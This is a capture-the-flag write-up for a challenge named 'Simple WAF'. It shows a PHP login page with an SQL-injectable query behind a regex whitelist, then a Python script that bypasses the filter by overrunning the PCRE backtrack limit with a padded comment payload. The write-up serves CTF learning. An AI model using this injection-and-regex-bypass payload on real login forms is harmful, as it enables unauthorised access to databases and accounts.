

# Simple WAF
[Medium]

i whitelisted input values so, i think iam safe : P

Author : abdoghazy

http://20.115.83.90:1339/

---

Solved late...forgot to add a dash (`-`) in the last :(

Solution:

The source code was given to us.

```php
<?php

require_once("db.php");

function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}


if(isset($_POST['login-submit']))
{
	if(!empty($_POST['username'])&&!empty($_POST['password']))
	{
        $username=$_POST['username'];
		$password=md5($_POST['password']);
        if(waf($username))
        {
            die("WAF Block");
        }
        else
        {
            $res = $conn->query("select * from users where username='$username' and password='$password'");
                                                                    
            if($res->num_rows ===1)
            {
                echo "0xL4ugh{Fake_Flag}";
            }
            else
            {
                echo "<script>alert('Wrong Creds')</script>";
            }
    }

	}
	else
	{
		echo "<script>alert('Please Fill All Fields')</script>";
	}
}

?>
```

The query is vulnerable to SQL injection. However...
1. We can't attack the `password` since it's being hashed using md5
2. A regex match is done to the `username` so only lowercase alphabet letters are allowed

I came across this writeup while looking for how to bypass `preg_match`
https://simones-organization-4.gitbook.io/hackbook-of-a-hacker/ctf-writeups/intigriti-challenges/1223#id-2.1-checks-bypass-with-redos-that-causes-sigsegv-in-pcre

So we can do a `ReDoS` (Regular Expression Denial of Service) by exceeding `pcre.backtrack_limit`

Let's make use of Python...

```python
import requests

URL = "http://20.115.83.90:1339/"

data = {
    "username": f"admin' /*{'A'*100000}*/ -- -",
    "password": "admin",
    "login-submit": ""
}
data = requests.post(URL, data=data)

print(data.text)
```



Flag: `0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}`

Just realized I forgot to add the last dash too late :(
Was using `"username": f"admin' /*{'A'*100000}*/ --",`


